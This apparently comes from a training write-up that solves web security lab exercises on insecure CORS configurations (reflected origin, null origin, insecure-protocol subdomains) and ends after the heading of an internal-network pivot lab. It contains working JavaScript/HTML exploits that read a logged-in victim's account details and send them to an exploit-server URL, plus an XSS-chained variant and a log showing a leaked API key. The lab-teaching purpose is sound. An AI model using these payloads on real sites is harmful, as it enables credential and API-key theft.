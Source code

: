 # Cross-origin resource sharing (CORS)

## Basics

### CORS vulnerability with basic origin reflection

#### Description

The Academy website for this lab has an insecure CORS configuration in that it trusts all origins. 

#### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.

![CORS](../../_static/images/cors1.png)

2. Review the **HTTPhistory** in Burp: The key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.

![CORS](../../_static/images/cors2.png)

3. Send the request to **Burp Repeater**, and resubmit it with the added header:

```text
Origin: https://whatever.com
```

![CORS](../../_static/images/cors3.png)

The origin is reflected in the `Access-Control-Allow-Origin` header, meaning the application allows an arbitrary (public) origin, and `Access-Control-Allow-Credentials` is also true.

4. Create exploit (replacing `lab-id`):

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

5. Paste the exploit in the `body` field of the form in the exploit server.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**

```text
...
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22PY3qD4pkDMg4WDq1CZvntWDlPE0TFUyV%22,%20%20%22sessions%22:%20[%20%20%20%20%22pEGInv0rQCAB3vDmrgkuharW591raOlV%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

9. Copy the administrator's API key, and enter it as solution to the lab.

#### Exploitability

To exploit this vulnerability, an attacker would have to create an exploit from a well-know template. Then, the attacker would need to convince the administrator into visiting the page with the exploit, potentially giving the attacker access to the administrator's account and all associated privileges and resources.

#### Impact

The attacker could disable account notifications, enable 2FA to lock them out, and transfer their data to an arbitrary address.

#### Remediation

An attacker can directly forge a request from any trusted origin. Apply protections to sensitive data, such as authentication and session management, in addition to configuring CORS.

----

### CORS vulnerability with trusted null origin

#### Description

This website has an insecure CORS configuration in that it trusts the `null` origin. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: `wiener:peter` 

#### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.
2. In Burp, review the **HTTPhistory**. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to **Burp Repeater**, and resubmit it with the added header `Origin: null`. The "null" origin is reflected in the Access-Control-Allow-Origin header of the response.
4. Create exploit (replacing `lab-id` and `exploit-server-id`). The iframe sandbox generates a null origin request.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-server-id.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

5. Go to the exploit server and enter the exploit in the body field of the form.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**
9. Copy the administrator's API key, and enter it as solution to the lab.

## Practitioner

### CORS vulnerability with trusted insecure protocols

#### Description

The website of this lab has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. 

_If an on-path attack (MitM) between server and victim was possible, a connection to an insecure subdomain could be hijacked, and malicious JavaScript injected to exploit the CORS configuration. Unfortunately, in this lab environment on-path is not possible, so we use an alternative way of injecting JavaScript into the subdomain._

#### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.
2. In Burp, review the history. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name. The origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
4. Open a product page, click **Check stock**. It is loaded using a HTTP URL on a subdomain, and the `productID` parameter is vulnerable to [XSS](xss.md). 
5. Create exploit ((replacing `lab-id` and `exploit-server-id`):

```html
<script>
    document.location="http://stock.lab-id.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://lab-id.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-server-id.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

6. Go to the exploit server and enter the exploit in the body field of the form.
7. Click **View exploit** and check you land on the log page and your API key is in the URL. 
8. **Deliver exploit to victim**.
9. Go to **Access log**
10. Copy the administrator's API key, and enter it as solution to the lab.

## Expert

### CORS vulnerability with internal network pivot attack

#### Description

The website of this lab has an insecure CORS configuration in that it trusts all internal network origins, and requires multiple steps to complete. 

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. The provided exploit server and/or Burp Collaborator's default public server must be used._


